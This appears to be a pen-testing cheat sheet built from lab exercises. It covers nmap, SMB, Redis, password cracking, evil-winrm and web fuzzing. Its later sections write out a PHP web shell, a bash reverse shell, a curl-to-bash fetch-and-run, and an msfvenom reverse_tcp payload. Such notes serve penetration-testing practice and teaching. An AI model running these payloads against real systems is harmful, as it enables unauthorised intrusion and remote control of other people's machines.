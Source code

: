 ### Pen-testing Tips and Tools

#### `sudo` Exploitation

To get all commands that can be run with `sudo`:
sudo -l

It can be exploited with `less` to gain shell access.

#### `nmap` (Network Mapper)

To probe open ports and check their service/version:
nmap -sV {ip}


To check all ports:
nmap -p- {ip}


To perform OS detection:
nmap -O {ip}


#### `telnet`

Connect to a server using Telnet:
telnet {ip}


#### `ftp`

Connect to a server using FTP. You can connect without an account by using the username "anonymous":
ftp {ip}


#### `smbclient`

Used to connect to Windows environments over SMB/CIFS.

To list all available shares:
smbclient -L {ip}


To connect to a specific share:
smbclient {ip}/share


#### `redis-cli`

Used to connect to a Redis database.

To access a remote Redis server:
redis-cli -h {ip} -p {port}


Some useful commands:
- `SELECT 0`: Select index database.
- `DBSIZE`: Get the size of the database.
- `KEYS *`: Show all keys.
- `GET {key}`: Show the content of a specific key.

#### `dirb`

A tool for scanning HTTP pages. You can specify a wordlist to discover directories and files on a website.
dirb {url} /usr/share/wordlist


#### SQL Injection

Exploiting SQL databases through unsanitized input.
- Example: `admin'#` to comment out the rest of the SQL query.

#### `mysql` and `MariaDB`

To connect to SQL databases:
mysql -h {ip} -u {user}


Some useful SQL commands:
- `SHOW DATABASES;`
- `USE {database};`
- `SELECT * FROM {table};`

#### File Inclusion Vulnerability

Exploiting PHP scripts that include files from URLs without proper sanitization.

#### `responder`

A tool for LLMNR, NBT-NS, and MDNS poisoning techniques, which involve intercepting and responding to network name resolution requests.

To run `responder`:
sudo responder -I tun0


You can use this to redirect or manipulate network traffic.

#### `john` (John the Ripper)

A tool for cracking password hashes.

To crack a hash:
john hash.txt


You can also use a wordlist to crack the hash:
john -w=/usr/share/wordlist hash.txt


#### `evil-winrm`

Exploit and control Windows machines remotely.
evil-winrm -i {ip} -u {user} -p {password}


This is particularly powerful with administrator access.

#### `wappanalizer`

A Firefox extension to analyze the technology stack used by websites.

#### `gobuster`

A fuzzer tool for finding domains and directories in URLs using wordlists.

To find subdomains:
gobuster vhost -u {domain} -w {wordlist} --append-domain


#### `nc` (Netcat)

To listen for a reverse shell:
nc -lvnp {port}


#### `awscli`

Used to interact with AWS servers, domains, and S3 buckets.

To execute commands on an endpoint:
aws --endpoint={url} {type} {command}


#### Reverse Shell in AWS S3

If an AWS bucket is found, you can upload a script to execute commands on it.

1. Create a PHP script that executes commands:
echo '<?php system($_GET["cmd"]); ?>' > shell.php


2. Upload the script to the bucket:
aws --endpoint={url} s3 cp shell.php s3://thetoppers.htb


3. Create a reverse shell script and listen on your machine:
Reverse shell script
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1

#### Netcat
nc -nvlp 1337


4. Launch a web server on your machine and visit the URL:
python3 -m http.server 8000
{url}/shell.php?cmd=curl%20<IP_ADDRESS>:8000/shell.sh|bash


#### Metasploit

Set up a reverse TCP shell on a Windows MS-SQL server.

In MSFVenom, create a payload:
msfvenom -p windows/meterpreter/reverse_tcp LHOST={ip} -f exe -o payload.exe


In MSF6, use Metasploit:
use exploit/multi/handler
set payload /windows/meterpreter/reverse_tcp
setg LHOST {ip}
run


#### Burp Suite

A tool to track all network and proxy traffic.

You can use the FoxyProxy extension to intercept and modify requests.

#### Developer Mode

You can use the browser's developer tools to inspect and modify cookies.

#### `wfuzz`

An HTTP request fuzzer that uses wordlists to replace and try different parameters.

Example with wordlist for file paths and parameters:
wfuzz -c -z file,/usr/share/wfuzz/wordlist/injection/SQL.txt -d “username=1&password=FUZZ” --hc 404 http://10.10.11.224:55555/FUZZ
